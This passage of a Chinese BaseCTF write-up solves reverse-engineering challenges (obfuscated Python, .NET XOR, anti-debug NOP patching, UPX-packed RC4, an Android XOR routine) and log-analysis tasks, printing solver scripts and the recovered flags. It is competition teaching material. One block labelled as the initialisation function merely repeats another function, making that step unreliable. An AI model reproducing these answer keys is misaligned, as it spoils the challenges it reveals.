a1 =[1 ,1 ,1 ,3 ,1 ,1 ,1 ,3 ,1 ,1 ,1 ,3 ,1 ,1 ,3 ,1 ,1 ,3 ,1 ,1 ,3 ,1 ,3 ,1 ,3 ,1 ,3 ]#line:6
f1 =[101 ,102 ,117 ,120 ,119 ,108 ,102 ,124 ,100 ,109 ]#line:7
def o1 ():#line:13
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
    return input ("please input your flag: ")#line:14
def p1 (O0O0OOOOO00OOOOO0 ):#line:20
    return list (O0O0OOOOO00OOOOO0 )#line:21
def main ():#line:27
    OO0O0O00O00O00OO0 =o1 ()#line:28
    O0OOOO0O0O0O0OOOO =1 #line:29
    # #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
    O00OOO0OO0000OO00 =0 #line:30
    if len (OO0O0O00O00O00OO0 )!=len (f1 ):#line:36
        print ("Input length does not match.")#line:37
        exit ()#line:38
    OOO00OOO0000OO0O0 =p1 (OO0O0O00O00O00OO0 )#line:44
    # #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
    for O0O0OOO00O000000O in range (len (a1 )):#line:50
        if a1 [O0O0OOO00O000000O ]==1 :#line:51
            OOO00OOO0000OO0O0 [O00OOO0OO0000OO00 ]=chr (ord (OOO00OOO0000OO0O0 [O00OOO0OO0000OO00 ])^O0OOOO0O0O0O0OOOO )#line:57
            O0OOOO0O0O0O0OOOO +=1 #line:58
        elif a1 [O0O0OOO00O000000O ]==3 :#line:59
            O00OOO0OO0000OO00 +=1 #line:60
    for O0OOOOOO000000OOO in range (len (f1 )):#line:66
        if f1 [O0OOOOOO000000OOO ]!=ord (OOO00OOO0000OO0O0 [O0OOOOOO000000OOO ]):#line:67
            print ("nooooo")#line:68
            # #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
# #免费的50分，复制粘贴直接秒杀！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！！
            exit ()#line:69
    print ("yes, your flag is")#line:75
    print ("BaseCTF{"+''.join (OO0O0O00O00O00OO0 )+"}")#line:76
if __name__ =="__main__":#line:82
    main ()#line:83
```

首先要排除干扰，Ctrl + H 替换掉抽象变量名以及干扰句子。

加密逻辑很简单，倒着写即可。

注意 f1 的最后一个元素未被加密函数使用，需要手动输出。

```python
a1 =[1 ,1 ,1 ,3 ,1 ,1 ,1 ,3 ,1 ,1 ,1 ,3 ,1 ,1 ,3 ,1 ,1 ,3 ,1 ,1 ,3 ,1 ,3 ,1 ,3 ,1 ,3 ]
f1 =[101 ,102 ,117 ,120 ,119 ,108 ,102 ,124 ,100 ,109 ]
pos = 0
x1 = 1
flag = ''
temp=[]
for i in range(len(a1)):
    if a1[i]==3:
        x = f1[pos]
        for j in range(len(temp)-1,-1,-1):
            x=x^temp[j]
        temp.clear()
        flag+=chr(x)
        pos+=1
    else:
        temp.append(x1)
        x1+=1
print('BaseCTF{'+flag+chr(109)+'}')
#BaseCTF{easyvmvmvm}
```

### 出题人已疯
DIE 查，发现是 .NET，拖入 dnSpy。

在自定义类中发现主要加密代码。

```csharp
private void Btn_Submit_Click(object sender, RoutedEventArgs e)
{
	char[] array = this.Tb_Input.Text.ToCharArray();
	char[] array2 = string.Join("", this.sentences).ToCharArray();
	for (int i = 0; i < array.Length; i++)
	{
		array[i] *= array[i];
		array[i] = (char)((int)array[i] ^ i ^ (int)array2[i % array2.Length]);
	}
			
	bool flag = new string(array) != new string((from c in source select (char)c).ToArray<char>());
	if (flag)
	{
		MessageBox.Show("\ud83d\ude2d我有异或症！");
	}
	else
	{
		MessageBox.Show("\ud83d\ude0b异或症好了！");
	}
}
```

就是简单的一个乘方+异或，倒着写即可。

```python
import libnum
enc = [250,81,152,152,186,78,242,93,175,117,27,103,104,84,229,119,250,81,152,152,186,78,242,9]
source = [24164,27173,32145,17867,40533,21647,17418,30032,27950,62998,60750,64870,52680,61797,49234,59762,16704,19200,32132,24038,21764,30130,28113,23070,27413,27917,28938,50207,64834,60132,64832,63334,55103,22176,21991,20073,22281,19476,28302,24336,24720,19544,23018,43976]
xl = "你以为我还会在乎吗？\ud83d\ude2c\ud83d\ude2c\ud83d\ude2c我在昆仑山练了六年的剑\ud83d\ude1f\ud83d\ude1f\ud83d\ude1f我的心早就和昆仑山的雪一样冷了\ud83d\ude10\ud83d\ude10\ud83d\ude10我在大润发杀了十年的鱼\ud83d\ude2b\ud83d\ude2b\ud83d\ude2b我以为我的心早已跟我的刀一样冷了\ud83d\ude29\ud83d\ude29\ud83d\ude29我早上坐公交滴卡的时候和司机大叔说“两个人”，司机惊讶地看着我“你明明就是一个人，为什么要滴两个人的卡？”我回他，“我心中还有一个叫Kengwang的。”司机回我说，“天使是不用收钱的。”（尖叫）（扭曲）（阴暗的爬行）（扭动）（阴暗地蠕动）（翻滚）（激烈地爬动）（痉挛）（嘶吼）（蠕动）（阴森的低吼）（爬行）（分裂）（走上岸）（扭曲的行走）（不分对象攻击）地球没我照样转？硬撑罢了！地球没我照样转？硬撑罢了！地球没我照样转？硬撑罢了！地球没我照样转？硬撑罢了！地球没我照样转？硬撑罢了！地球没我照样转？硬撑罢了！扭曲上勾拳！阴暗的下勾拳！尖叫左勾拳！右勾拳爬行！扭动扫堂腿！分裂回旋踢！这是蜘蛛阴暗的吃耳屎，这是龙卷风翻滚停车场！乌鸦痉挛！老鼠嘶吼！大象蠕动！愤怒的章鱼！无差别攻击！无差别攻击！无差别攻击！"
l = 44
flag = ''
for i in range(len(source)):
    temp = (source[i]^i^ord(xl[i%len(xl)]))
    flag += chr(libnum.nroot(temp,2))
print(flag)
#BaseCTF{y0u_KnOw_UTF16_6uT_U_r_n0t_Cr@zym@n}
```

### Dont-debug-me
DIE 查，无壳，64 位，丢 IDA。

强制调试+反调试，很好玩。



第一处需要满足正在调试，第二处需要满足未调试，直接把两处判断 nop 掉即可。



修改后长这样，直接保存修改，然后运行程序，输入 0 即可。



### UPX PRO
<font style="color:rgb(51, 51, 51);">用到了通杀这类型题的脱壳方法，留到最后一周放脱壳方法。</font>

<font style="color:rgb(51, 51, 51);">脱壳后直接拖到ida分析：</font>

<font style="color:rgb(51, 51, 51);">自行恢复一下：</font>

```c
__int64 sub_1675()
{
  __int64 v0; // r8
  __int64 v1; // r9
  __int64 len_data; // rax
  unsigned __int64 v4; // rbx
  char v5[32]; // [rsp+0h] [rbp-C0h] BYREF
  _QWORD v6[6]; // [rsp+20h] [rbp-A0h]
  _QWORD input_data[6]; // [rsp+50h] [rbp-70h] BYREF
  char input_key[13]; // [rsp+83h] [rbp-3Dh] BYREF
  __int64 v9; // [rsp+90h] [rbp-30h]
  int v10; // [rsp+9Ch] [rbp-24h]
  __int64 len_key; // [rsp+A0h] [rbp-20h]
  int i; // [rsp+ACh] [rbp-14h]

  puts("UPX shell is really fun, fun to play with");
  puts("Can you unpack?");
  memset(input_key, 0, sizeof(input_key));
  memset(input_data, 0, 41);
  len_key = 0LL;
  v10 = 1;
  v6[0] = 0x364A65466C271216LL;
  v6[1] = 0x2447243568082139LL;
  v6[2] = 0x29323C0F5A1A7D60LL;
  v6[3] = 0x4D647C3C45531544LL;
  v6[4] = 0x74152339130F7024LL;
  strcpy(&v5[16], "r");
  if ( sub_10A0(0LL, 0LL, 1LL, 0LL, v0, v1, 0x6A546E4453335142LL, 0x75764D6B4B617637LL, *(_DWORD *)&v5[16]) == -1 )
  {
    puts("nononono!!!");
    puts("plz close debugger");
  }
  else
  {
    puts("What is the key for unpacking:");
    scanf("%12s", input_key);
    v9 = make_key(input_key);
    if ( (unsigned int)strcmp(v9, v5) )
    {
      puts("cai-jiu-duo-lian!!!");
    }
    else
    {
      puts("Unpacking successful!!!");
      puts("then, plz input your flag:");
      scanf(" %40s", (const char *)input_data);
      if ( strlen(input_data) == 40 )
      {
        len_key = strlen(input_key);
        len_data = strlen(input_data);
        make_flag(input_data, len_data, input_key, len_key);
        for ( i = 0; ; ++i )
        {
          v4 = i;
          if ( v4 >= strlen(input_data) )
            break;
          if ( *((_BYTE *)v6 + i) != *((_BYTE *)input_data + i) )
          {
            puts("Practice again!!!");
            v10 = 0;
            return 0xFFFFFFFFLL;
          }
        }
        if ( v10 == 1 )
          sub_1060("GOOD!");
      }
      else
      {
        puts("flag length wrong!!!!!");
      }
    }
    sub_1030(v9);
  }
  return 0LL;
}
```

<font style="color:rgb(51, 51, 51);">很明显第二次输入的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">data</font>`<font style="color:rgb(51, 51, 51);">经过处理后的检验应该是</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">flag</font>`<font style="color:rgb(51, 51, 51);">的检查，同时发现</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">key</font>`<font style="color:rgb(51, 51, 51);">其实没有什么用，直接进入函数</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">make_flag</font>`<font style="color:rgb(51, 51, 51);">：</font>

```c
__int64 __fastcall make_flag(__int64 input_data, unsigned __int64 data_len, __int64 key, __int64 key_len)
{
  _BYTE v5[139]; // [rsp+20h] [rbp-A0h] BYREF
  char v6; // [rsp+ABh] [rbp-15h]
  int v7; // [rsp+ACh] [rbp-14h]
  unsigned __int64 i; // [rsp+B0h] [rbp-10h]
  int v9; // [rsp+B8h] [rbp-8h]
  int v10; // [rsp+BCh] [rbp-4h]

  reset(v5, key, key_len);
  v10 = 0;
  v9 = 0;
  v7 = 0;
  for ( i = 0LL; i < data_len; ++i )
  {
    v10 = (v10 + 1) % 128;
    v9 = (v9 + v5[v10]) % 128;
    v6 = v5[v10];
    v5[v10] = v5[v9];
    v5[v9] = v6;
    v7 = (v5[v10] + v5[v9]) & 0x7F;
    *(input_data + i) ^= v5[v7];
  }
  return 0LL;
}
```

<font style="color:rgb(51, 51, 51);">有一个初始化的函数：</font>

```c
__int64 __fastcall make_flag(__int64 input_data, unsigned __int64 data_len, __int64 key, __int64 key_len)
{
  _BYTE v5[139]; // [rsp+20h] [rbp-A0h] BYREF
  char v6; // [rsp+ABh] [rbp-15h]
  int v7; // [rsp+ACh] [rbp-14h]
  unsigned __int64 i; // [rsp+B0h] [rbp-10h]
  int v9; // [rsp+B8h] [rbp-8h]
  int v10; // [rsp+BCh] [rbp-4h]

  reset(v5, key, key_len);
  v10 = 0;
  v9 = 0;
  v7 = 0;
  for ( i = 0LL; i < data_len; ++i )
  {
    v10 = (v10 + 1) % 128;
    v9 = (v9 + v5[v10]) % 128;
    v6 = v5[v10];
    v5[v10] = v5[v9];
    v5[v9] = v6;
    v7 = (v5[v10] + v5[v9]) & 0x7F;
    *(input_data + i) ^= v5[v7];
  }
  return 0LL;
}
```

<font style="color:rgb(51, 51, 51);">这个过程显然和输入无关，只和一个固定值有关，也就是说我们可以自己写个一样的逻辑把数据dump下来，直接把比对的数据dump下来，写一个一模一样的</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">poc</font>`<font style="color:rgb(51, 51, 51);">去跑一遍</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">make_flag</font>`<font style="color:rgb(51, 51, 51);">函数就能输出 flag：</font>

```c
// gcc poc.c -o poc
#include <string.h>

int gene(char *a1) {
    char v4[0x80];  
    char v5;        
    int v6;         
    int i;           

    v6 = 0;                         
    memset(v4, 0, sizeof(v4));       
    v5 = 0;                          
    for (i = 0; i <= 0x7F; ++i) {   
        *((char*)a1 + i) = i;       
        v4[i] = v4[i % 12];       
    }
    for (i = 0; i <= 127; ++i) {    
        v6 = (v4[i] + v6 + *((char*)a1 + i)) % 128; 
        v5 = *((char*)a1 + i);      
        *((char*)a1 + i) = *((char*)a1 + v6); 
        *((char*)a1 + v6) = v5;    
    }
    return 0;  // 返回 0
}

unsigned char input[] =
{
  0x16, 0x12, 0x27, 0x6C, 0x46, 0x65, 0x4A, 0x36, 0x39, 0x21, 
  0x08, 0x68, 0x35, 0x24, 0x47, 0x24, 0x60, 0x7D, 0x1A, 0x5A, 
  0x0F, 0x3C, 0x32, 0x29, 0x44, 0x15, 0x53, 0x45, 0x3C, 0x7C, 
  0x64, 0x4D, 0x24, 0x70, 0x0F, 0x13, 0x39, 0x23, 0x15, 0x74
};

int main()
{
    char v5[0x80];
    gene(v5);
    int v10 = 0;
    int v9 = 0;
    int v7 = 0;
    char v6;
    for ( int i = 0; i < 40; ++i )
    {
        v10 = (v10 + 1) % 128;
        v9 = (v9 + v5[v10]) % 128;
        v6 = v5[v10];
        v5[v10] = v5[v9];
        v5[v9] = v6;
        v7 = (v5[v10] + v5[v9]) & 0x7F;
        *(input + i) ^= v5[v7];
    }
    printf("%s\n", input);
}
// BaseCTF{Rc4_1$_@_G0od_3nCrypt!on_MethOd}
```


### ezAndroid
安卓逆向，先拖入 jadx-gui。

在 MainActivity 中发现核心内容。

```java
package com.example.hello;

import android.os.Bundle;
import android.view.View;
import android.widget.Button;
import androidx.appcompat.app.AppCompatActivity;
import com.example.hello.databinding.ActivityMainBinding;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.util.Arrays;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    private ActivityMainBinding binding;
    private byte[] flagBytes;

    public native byte[] Base64encode(byte[] bArr);

    static {
        System.loadLibrary("hello");
    }

    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        ActivityMainBinding inflate = ActivityMainBinding.inflate(getLayoutInflater());
        this.binding = inflate;
        setContentView(inflate.getRoot());
        this.binding.sampleText.setText("输入flag");
        this.binding.inputText.setContentDescription("enter flag");
        Button button = this.binding.confirmButton;
        button.setText("Confirm");
        button.setOnClickListener(new View.OnClickListener() { // from class: com.example.hello.MainActivity$$ExternalSyntheticLambda0
            @Override // android.view.View.OnClickListener
            public final void onClick(View view) {
                MainActivity.this.m143lambda$onCreate$0$comexamplehelloMainActivity(view);
            }
        });
    }

    /* JADX INFO: Access modifiers changed from: package-private */
    /* renamed from: lambda$onCreate$0$com-example-hello-MainActivity, reason: not valid java name */
    public /* synthetic */ void m143lambda$onCreate$0$comexamplehelloMainActivity(View view) {
        onConfirmButtonClick();
    }

    public void onConfirmButtonClick() {
        this.flagBytes = loadFlagFile("flag");
        if (Arrays.equals(Base64encode(this.binding.inputText.getText().toString().getBytes()), this.flagBytes)) {
            this.binding.sampleText.setText("yesss");
        }
    }

    private byte[] loadFlagFile(String str) {
        try {
            InputStream open = getAssets().open(str);
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bArr = new byte[1024];
            while (true) {
                int read = open.read(bArr);
                if (read != -1) {
                    byteArrayOutputStream.write(bArr, 0, read);
                } else {
                    open.close();
                    return byteArrayOutputStream.toByteArray();
                }
            }
        } catch (IOException e) {
            e.printStackTrace();
            return null;
        }
    }
}
```

其中 onConfirmButtonClick() 是对输入和 flag 进行比较，将输入进行 Base64encode。

flag 文件是读进来的，我们可以把 apk 后缀改为 rar，然后解压，在 assets 文件夹中找到 flag。

发现 flag 中有一堆不可见字符，这真的是 Base64encode 吗？

用 IDA 查看 libhello.so，找到 Base64encode 函数。

```c
__int64 __fastcall Java_com_example_hello_MainActivity_Base64encode(__int64 a1, __int64 a2, __int64 a3)
{
  int v4; // r15d
  __int64 v5; // rbx
  _BYTE *v6; // r14
  __int64 v7; // rbp
  unsigned int v8; // esi
  __int64 v9; // rbx
  __int64 v11; // [rsp+0h] [rbp-38h]

  v4 = (*(*a1 + 1368LL))(a1, a3);
  v11 = a3;
  v5 = (*(*a1 + 1472LL))(a1, a3, 0LL);
  v6 = operator new[](v4);
  if ( v4 > 0 )
  {
    if ( v4 == 1 )
    {
      v7 = 0LL;
    }
    else
    {
      v8 = 1;
      v7 = 0LL;
      do
      {
        v6[v7] = *(v5 + v7) ^ byte_CD08[v7 % 0xC];
        v6[v7 + 1] = *(v5 + v7 + 1) ^ byte_CD08[v7 + 1 + -12 * (v8 / 0xC)];
        v7 += 2LL;
        v8 += 2;
      }
      while ( (v4 & 0xFFFFFFFE) != v7 );
    }
    if ( (v4 & 1) != 0 )
      v6[v7] = *(v5 + v7) ^ byte_CD08[v7 % 0xC];
  }
  (*(*a1 + 1536LL))(a1, v11, v5, 2LL);
  v9 = (*(*a1 + 1408LL))(a1, v4);
  (*(*a1 + 1664LL))(a1, v9, 0LL, v4, v6);
  operator delete[](v6);
  return v9;
}
```

发现这其实是一个简单的异或，异或的字符串在 byte_CD08 里面，我们直接 shift+e 提出来。

:::info
a6b4d4fe3461

:::

用 CyberChef 异或回去即可。




## <font style="color:rgb(107, 0, 64);">P</font><font style="color:rgb(0, 54, 111);">PC</font>
### BaseCTF 崩啦 - 导言
如题，下载好附件后在 README.txt 中发现 flag。

### BaseCTF 崩啦 II - 过期了?
要求找到 `Damien Schroeder` 队伍的所有逾期提交题目，并按照时间顺序用英文逗号连接，取 md5 值。

看了一下，所有题目的截止提交时间都为 2024-08-31T15:00:00+08:00，也就是找该队伍 2024.8.31 15:00:00 后的所有提交记录，找到以后通过题目名称去对应题目的 Id，排序以后是这样。

:::info
[2024/8/31 16:09:34 +08:00 INF] 8bcad0d3-6379-411f-5edb-650c20f30dd5


[2024/8/31 17:38:58 +08:00 INF] 563c8303-5eb1-affe-1369-e8889b9323eb


[2024/8/31 18:07:48 +08:00 INF]  ef0a3095-ece1-c427-ab20-99a79fe10bc8


[2024/8/31 18:30:22 +08:00 INF] 2ac9055a-1a79-857f-ed12-e33e5acdc9a3


[2024/8/31 20:28:55 +08:00 INF]  063c3506-d3e4-668b-88f7-2da39092dfe0


[2024/8/31 23:33:54 +08:00 INF] b18048d0-bd8e-0fd0-22b3-61780bae1608

:::

按照要求拼接后长这样。

:::info
8bcad0d3-6379-411f-5edb-650c20f30dd5,563c8303-5eb1-affe-1369-e8889b9323eb,ef0a3095-ece1-c427-ab20-99a79fe10bc8,2ac9055a-1a79-857f-ed12-e33e5acdc9a3,063c3506-d3e4-668b-88f7-2da39092dfe0,b18048d0-bd8e-0fd0-22b3-61780bae1608

:::

md5 后套上 BaseCTF 就是 flag。

### BaseCTF 崩啦 III - 帮我查查队伍的解题
比起上一题，手动去做显得更吃力，所以需要借助一下脚本。

大致意思就是找到  Rick Hyatt  队伍所有未提交，提交错误，或者逾期提交的所有题目，按照 challenges.json 中的题目顺序拼接，取 md5 值。

正难则反，我们把该队伍所有提交正确的题目找出来，然后把这些题目作为黑名单，用脚本跑一下，自然就能得到想要的那些题目。

可以手动把该队伍的提交记录都取出来，先删掉逾期提交的题目，再去看剩余的题目是否有提交错误的。

怎么看提交是否正确，这里需要先去看 teams.json，找到该队伍的 Id，然后在 flags.json 把该队伍的 flag 提出来，依次对比即可。

最后只有 3 个题目提交正确，把他们写入一个 black.txt，作为黑名单。

```plain
[[Week2] Aura 酱的旅行日记 VI <图寻擂台>]
[[Week3] 你为什么不让我溢出]
[[Week2] try_to_factor]
```

接下来用脚本跑，把所有未在黑名单中的题目的 Id 拼出来即可。

```python
import json
from hashlib import md5
with open('black.txt', 'r', encoding='utf-8') as file:
    blacklist = file.read()
with open('challenges.json', 'r') as file:
    data = json.load(file)
ids_to_output = []
cnt = 0
for item in data:
    if item['Name'] not in blacklist:
        ids_to_output.append(item['Id'])
        cnt += 1
output_ids = ','.join(ids_to_output)
print(output_ids)
print(cnt)
print(md5(output_ids.encode('utf-8')).hexdigest())
```

最终 md5 值：4f87919032dfc58a9a23044aab9acd99。

包上 BaseCTF 就是 flag。

### BaseCTF 崩啦 IV - 排排坐吃果果
统计排名，细节很多。

+ 超时提交的不计分
+ 0 分的队伍也要计算到排名中，但有可能这类队伍就没提交记录，需要从 teams.json 里面初始化
+ 有的队伍会重复提交正确的 flag，分数不能重复累加
+ 有个重名的队伍，不过出题人很良心，把这个重名队伍的得分合并也视为正确答案

为了方便书写计算代码，这里把 submissions.log 通过脚本转成了 submit.json，同时忽略了超时提交的记录。

```python
import re
from datetime import datetime
import json
comparison_time_str = "2024-08-31T15:00:00+08:00"
comparison_time = datetime.fromisoformat(comparison_time_str)
with open('submissions.log', 'r') as f:
    log_entries = f.read()
log_entries = log_entries.split('\n')
logs = []
def extract_info(log_line):
    patterns = {
        'time': r'\[(.*?)\]',
        'team': r'队伍 \[(.*?)\]',
        'challenge': r'提交题目 \[(.*?)\] 的答案',
        'flag': r'答案 \[(.*?)\]'
    }
    extracted_info = {key: re.search(pattern, log_line).group(1) if re.search(pattern, log_line) else None
                      for key, pattern in patterns.items()}
    return extracted_info
for log in log_entries:
    log_json = extract_info(log)
    if log_json['time']:
        log_json['time'] = time = datetime.strptime(log_json['time'][:-4], '%Y/%m/%d %H:%M:%S %z')
        if log_json['time'] <= comparison_time:
            log_json.pop('time', None)
            logs.append(log_json)
def save_to_json(data, filename):
    with open(filename, 'w', encoding='utf-8') as f:
        json.dump(data, f, ensure_ascii=True, indent=3)
save_to_json(logs, 'submit.json')
```

生成了 submit.json 以后，接下来就是统计排名，需要把之前的细节都考虑到。

对于重复提交正确 flag 的队伍，这里使用 vis 字典进行打标记，未打标记的正常加分，打过标记的不再计分。

```python
import json
import hashlib
from tqdm import tqdm
with open('challenges.json', 'r') as f:
    json_string = f.read()
challenges = json.loads(json_string)
with open('flags.json', 'r') as f:
    json_string = f.read()
flags = json.loads(json_string)
with open('teams.json', 'r') as f:
    json_string = f.read()
teams = json.loads(json_string)
with open('submit.json', 'r') as f:
    json_string = f.read()
submits = json.loads(json_string)
scores = {}
vis = {}
for team in teams:
    scores[team['Name']] = 0
    vis[team['Name']] = {}
    for problem in challenges:
        vis[team['Name']][problem['Id']] = False
for submit in tqdm(submits, desc="Processing submits"):
    sub_team = submit['team']
    sub_flag = submit['flag']
    sub_challenge = submit['challenge']
    challenge = next((item for item in challenges if item['Name'] == sub_challenge), None)
    points = challenge['Points']
    challenge_id = challenge['Id']
    team = next((item for item in teams if item['Name'] == sub_team), None)
    team_id = team['Id']
    if vis[sub_team][challenge_id]:
        continue
    flag = next((item for item in flags if (item['ChallengeId'] == challenge_id and item['TeamId'] == team_id)), None)
    if flag['Flag'] == sub_flag:
        vis[sub_team][challenge_id] = True
        scores[sub_team] += points
def sort_and_generate_flag(data):
    sorted_data = sorted(data.items(), key=lambda x: (-x[1], x[0]))
    concatenated_string = ';'.join(f"{team},{points}" for team, points in sorted_data)
    print(concatenated_string)
    md5_result = hashlib.md5(concatenated_string.encode('utf-8')).hexdigest()
    flag = f"BaseCTF{{{md5_result}}}"
    return flag
print(sort_and_generate_flag(scores))
```


### BaseCTF 崩啦 V - 正义执行!
统计作弊队伍，只要提交其他队伍 Flag 都视为作弊。

需要将之前转 json 的脚本修改一下，把时间过滤删去即可。

```python
import re
import json
with open('submissions.log', 'r', encoding='utf-8') as f:
    log_entries = f.read()
log_entries = log_entries.split('\n')
logs = []
def extract_info(log_line):
    patterns = {
        'time': r'\[(.*?)\]',
        'team': r'队伍 \[(.*?)\]',
        'challenge': r'提交题目 \[(.*?)\] 的答案',
        'flag': r'答案 \[(.*?)\]'
    }
    extracted_info = {key: re.search(pattern, log_line).group(1) if re.search(pattern, log_line) else None
                      for key, pattern in patterns.items()}
    return extracted_info
for log in log_entries:
    log_json = extract_info(log)
    logs.append(log_json)
def save_to_json(data, filename):
    with open(filename, 'w', encoding='utf-8') as f:
        json.dump(data, f, ensure_ascii=True, indent=3)
save_to_json(logs, 'submit.json')

```

统计作弊队伍也有一些小细节。

+ 最后要的是未作弊的队伍
+ 有可能有的队伍交了多个其它队伍的 flag
+ 只要交了其它队伍的 flag，不管是哪个题，双方都视为作弊

```python
import json
import hashlib
from pwnlib.dynelf import sizeof
from tqdm import tqdm
with open('challenges.json', 'r') as f:
    json_string = f.read()
challenges = json.loads(json_string)
with open('flags.json', 'r') as f:
    json_string = f.read()
flags = json.loads(json_string)
with open('teams.json', 'r') as f:
    json_string = f.read()
teams = json.loads(json_string)
with open('submit.json', 'r') as f:
    json_string = f.read()
submits = json.loads(json_string)
cheaters = []
all_teams = []
for team in teams:
    all_teams.append(team['Id'])
for submit in tqdm(submits, desc="Processing submits"):
    sub_team = submit['team']
    sub_flag = submit['flag']
    sub_challenge = submit['challenge']
    # challenge = next((item for item in challenges if item['Name'] == sub_challenge), None)
    # challenge_id = challenge['Id']
    team = next((item for item in teams if item['Name'] == sub_team), None)
    team_id = team['Id']
    flag = next((item for item in flags if (item['Flag'] == sub_flag)), None)
